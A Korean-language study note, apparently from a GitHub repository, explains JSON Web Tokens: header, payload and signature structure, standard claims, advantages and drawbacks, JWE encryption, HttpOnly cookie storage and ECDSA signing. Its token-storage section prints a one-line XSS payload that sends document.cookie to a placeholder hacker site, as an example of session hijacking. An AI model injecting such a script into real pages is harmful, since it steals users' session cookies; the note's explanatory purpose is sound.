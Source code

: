 # JWT(JSON Web Token)

## JWT? JSON 포맷을 이용하여 Self-Contained 방식으로 사용자에 대한 정보를 저장하는 Claim 기반 Web Token

> 유저가 전송하는 데이터를 숨기는 것이 아닌, 유저가 전송하는 데이터를 “인증” 하는데 초점
> 
- 주요 특징 : 토큰 자체에 사용자의 권한 정보나 서비스를 사용하기 위한 정보가 포함(self-contained) → 토큰이 한 번 발급된 이후 사용자의 정보를 바꾸더라도 토큰을 재발급 받지 않은 이상 반영되지 않음 (refresh Token)
- 저장 위치
    - JWT : client 저장
    - Session : server 저장 → memory & storage 통해 세션을 관리했던 서버의 부담&보안 이슈

## JWT의 구조 (Header, Payload, Signature)

![TokenStructure](https://user-images.githubusercontent.com/85625910/207079216-0b6b601a-0d89-44a3-8895-938045afc4a4.png)

- Header : JWT 에서 사용할 타입과 Hash 알고리즘의 종류가 담겨 있음
    - 알고리즘 종류 : HMAC, SHA256, RSA, HS256 or RS256
    - JSON 객체를 문자열로 직렬화 하고 UTF-8 과 Base64 URL-Safe 인코딩
        
        ```java
        Base64URLSafe(UTF-8('{"alg": "ES256","kid": "Key ID"}')) -> eyJhbGciOiJFUzI1NiIsImtpZCI6IktleSBJRCJ9
        ```
        
- Payload : server 에서 첨부한 사용자 권한 정보와 데이터가 담겨 있음
    - Claim? Payload에 담은 정보의 한 조각을 의미 (아래는 대표적으로 사용되는 claim)
        - Issuer(iss)
        - Subject(sub)
        - Audience(aud)
        - Expiration time(exp)
        - Issued at (iat)
    - 이 외에도 Custom claim 사용 가능 (단, 큰 용량 및 중요 데이터는 지양 → JWT는 쉽게 decode 되기 때문)
    - name&value 의 한 쌍으로 이루어짐
- Signature(핵심 part) : Header, Payload 를 Base64 URL-safe Encode 를 한 이후 Header에 명시된 hash 함수를 적용하고, Primary Key로 서명한 전자서명이 담겨 있음

> [https://meetup.toast.com/posts/239](https://meetup.toast.com/posts/239) → JWT JAVA 구현 Code 참고
> 

## JWT의 장/단점

- 장점
    - 확장성 : 다른 도메인이나 어플리케이션간 이동이 발생해도 같은 JWT 사용 ( 기존 server에 세션을 저장하는 방식은 분산화된 환경에서 처음 로그인한 server 에만 요청을 보내도록 설정하는 등의 작업 필요 → Token 값만 알고 있으면 어떤 서버로 요청을 보내던 가능)
    - Cookie 사용으로 인한 보안 취약점 개선
    - 불필요한 인증 과정 감소 : JWT를 사용하면 사용자와 관련된 정보를 Auth server 에 매번 요청할 필요 없음
    - HTTPS 사용의 강제성 : Authorization Header 에 JWT 를 담아 보내기 위해서는 HTTPS를 사용해야 함
- 단점
    - Token이 만료되기 전에 노출되면 보안적으로 매우 취약
    - claim이 많아 질수록 JWT의 Token 이 길어짐 → 네트워크 대역폭 낭비가 심해짐
    - Payload 에 대한 정보는 암호화 되지 않고 Base64 encoding만 하기 때문에 보안에 취약
        - Solution : JWE(JSON Web Encryption)을 통해 암호화 하거나 중요 데이터를 payload에 담지 않는다
        - JWE(JSON Web Encryption)
            - **Authenticated Encryption with Associated Data (AEAD)** 알고리즘을 사용하여 Integrity(무결성) 보장
            - 대칭키 이용 : 내용 암호화 → CEK(Content Encryption Key)
            - 비대칭키 이용 : CEK를 암호화
            - 이 방식은 client 에게 대칭키를 숨길 수 없음 → 신뢰할 수 없는 client 와 연동하는 경우 추천되지 않음
            
            > [https://www.scottbrady91.com/jose/json-web-encryption](https://www.scottbrady91.com/jose/json-web-encryption)
            > 
        - JWS(Signature) + JSE(Encryption) = 보안성(무결성+기밀성)
            - 즉, 둘이 상호 보완하여 안전한 claim 전송 가능
            
            > [https://syntaxsugar.tistory.com/entry/JOSEJSON-Object-Signing-and-Encryption](https://syntaxsugar.tistory.com/entry/JOSEJSON-Object-Signing-and-Encryption)
            > 

## Token 발급과 재발급

![JwtCookie](https://user-images.githubusercontent.com/85625910/207079682-7ff541a7-79c8-4c66-a894-c1bb1fb08b81.png)

- JWT의 취약점 : Token 이 노출된다면 암호화에 의미가 없어짐 → Local Storage에 저장하지 않고 HttpOnly Cookie 를 사용하여 저장 (third party의 자바스크립트 코드를 통해서 쿠키 속의 JWT를 읽어내는 것을 방지)
    - HttpOnly Cookie? 기본 쿠키는 클라이언트에서 자바스크립트로 조회 가능 (해커의 하이재킹 가능) → 즉, browser 에서 해당 쿠키로 접근할 수 없게 되지만 쿠키에 포함된 정보의 대부분이 browser 에서 접근할 필요가 없음
    - 해커의 하이재킹 방식 : XSS(Cross Site Scrpiting) 게시판 또는 이미지 src 에 해커사이트 주소로 연결되게 작성 → 게시물을 공개 게시판에 게시 → 이 게시물을 일반 사용자가 읽게 된다면 자바스크립트 명령이 자동 실행 되어 해커 사이트로 이동되며 모든 cookie 들을 URL 쿼리에 적히게 되며 해커 사이트에 controller 단에서 cookie 라는 파라미터를 받아 탈취
    
    ```java
    <script> location.href = '해커사이트주소?cookie='+document.cookie </script>
    ```
    
    ![HttpOnlyCookie](https://user-images.githubusercontent.com/85625910/207079376-d7333276-dbb6-478f-ae09-4dfcb0ca7d25.png)
    

## 암호화 & 복호화

```java
Sig = ECDSA(SHA256(B64(Header).B64(Payload)), PrivateKey)
JWT = B64(Header).B64(Payload).B64(Sig)
```

- 전자서명에는 비대칭 암호화 알고리즘을 사용하므로 암호화를 위한 키와 복호화를 위한 키는 다르다
    - 암호화(전자서명) : 개인키
    - 복호화(검증) : 공개키